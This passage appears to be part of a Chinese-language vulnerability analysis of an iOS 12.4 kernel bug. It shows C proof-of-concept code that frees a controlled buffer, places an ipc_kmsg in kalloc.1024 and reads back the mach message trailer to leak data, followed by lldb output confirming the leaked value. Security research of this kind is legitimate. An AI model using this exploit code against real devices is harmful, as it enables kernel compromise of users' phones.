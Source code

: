 ```c
	
	printf("[+] Creating kalloc.1024 ipc_kmsg\n");
	mach_msg_base_t *message = NULL;

	// size to fit in kalloc.1024, trust me, I'm an expert (c)
	mach_msg_size_t message_size = (mach_msg_size_t)(sizeof(*message) + 0x1e0); 

	message = malloc(message_size + MAX_TRAILER_SIZE);
	memset(message, 0, message_size + MAX_TRAILER_SIZE);
	message->header.msgh_size = message_size;
	message->header.msgh_bits = MACH_MSGH_BITS (MACH_MSG_TYPE_COPY_SEND, 0);
	message->body.msgh_descriptor_count = 0;
	message->header.msgh_remote_port = port;

	uint8_t *buffer;
	buffer = malloc(message_size + MAX_TRAILER_SIZE);

	printf("[+] Freeing controlled buffer\n");
	close(fd[0]);
	close(fd[1]);

	printf("[+] Sending message\n");
	mach_msg(&message->header, 
	        MACH_SEND_MSG, 
	        message_size, 
	        0, 
	        MACH_PORT_NULL, 
	        MACH_MSG_TIMEOUT_NONE, 
	        MACH_PORT_NULL);
	memset(buffer, 0, message_size + MAX_TRAILER_SIZE);
	printf("[+] Now reading message back\n");
	mach_msg((mach_msg_header_t *)buffer, 
	        MACH_RCV_MSG | MACH_RCV_TRAILER_ELEMENTS(5), 
	        0, 
	        message_size + MAX_TRAILER_SIZE, 
	        port, 
	        MACH_MSG_TIMEOUT_NONE, 
	        MACH_PORT_NULL);
	
	mach_msg_mac_trailer_t *trailer = (mach_msg_mac_trailer_t*)(buffer + message_size);
	printf("[+] Leaked value: %x\n", trailer->msgh_ad);

	return 0;
}
```

使用XCode调试，新建一个iOS应用，运行在12.4的iPhone 6上，把Poc代码插入运行

![image-20210131014355471](/Users/wnagzihxa1n/Library/Application Support/typora-user-images/image-20210131014355471.png)

我这里发现了一个XCode解析结构体的问题，按照结构体定义，我标出了`msgh_audit`的数组位置，在`val[7]`后面，是64位长度的`msgh_context`，但是这里解析出错，因为`4714839257292734464`是`0x416e795300000000`，修正结构体偏移后，在`msgh_ad`的位置上是我们提前设置的数据`0x416e7953`
```c
(lldb) p *(mach_msg_mac_trailer_t *)0x000000010fe00cdc
(mach_msg_mac_trailer_t) $11 = {
  msgh_trailer_type = 0
  msgh_trailer_size = 68
  msgh_seqno = 0
  msgh_sender = {
    val = ([0] = 501, [1] = 501)
  }
  msgh_audit = {
    val = ([0] = 4294967295, [1] = 501, [2] = 501, [3] = 501, [4] = 501, [5] = 605, [6] = 0, [7] = 1792)
```